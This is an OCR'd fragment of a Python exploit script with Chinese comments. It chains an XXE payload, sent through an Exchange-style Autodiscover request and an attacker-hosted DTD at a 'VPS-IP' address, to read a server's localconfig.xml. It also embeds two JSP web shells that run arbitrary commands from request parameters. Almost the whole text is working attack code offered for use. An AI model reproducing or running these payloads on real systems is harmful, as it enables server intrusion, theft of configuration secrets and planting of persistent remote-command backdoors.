 ```
fileContent = r’<%if(“023”.equals(request.getParameter(“pwd”))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter(“i”)).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>’

#fileContent = r’<%@page import=“[java.io](http://java.io).*”%><%@page import=“sun.misc.BASE64Decoder”%><%try {String cmd = request.getParameter(“tom”);String path=application.getRealPath(request.getRequestURI());String dir=“weblogic”;if(cmd.equals(“NzU1Ng”)){out.print("[S]"+dir+"[E]");}byte[] binary = BASE64Decoder.class.newInstance().decodeBuffer(cmd);String xxcmd = new String(binary);Process child = Runtime.getRuntime().exec(xxcmd);InputStream in = child.getInputStream();out.print("->|");int c;while ((c = in.read()) != -1) {out.print((char)c);}in.close();out.print("|<-");try {child.waitFor();} catch (InterruptedException e) {e.printStackTrace();}} catch (IOException e) {System.err.println(e);}%>’

#可使用第11行bypass

print(base_url)

#请自己在公网放置dtd文件

dtd_url=“[http://VPS-IP/exp.dtd](http://VPS-IP/exp.dtd)”

“”"

<!ENTITY % file SYSTEM “file:…/conf/localconfig.xml”>

<!ENTITY % start “<![CDATA[”>

<!ENTITY % end “]]>”>

<!ENTITY % all “<!ENTITY fileContents ‘%start;%file;%end;’>”>

“”"

xxe_data = r"""<!DOCTYPE Autodiscover [

<!ENTITY % dtd SYSTEM “{dtd}”>

%dtd;

%all;

]>

<Autodiscover xmlns=“[http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a](http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a)”>

<Request>

<EMailAddress>aaaaa</EMailAddress>

<AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>

</Request>

</Autodiscover>""".format(dtd=dtd_url)

#XXE stage

headers = {

“Content-Type”:“application/xml”

}
```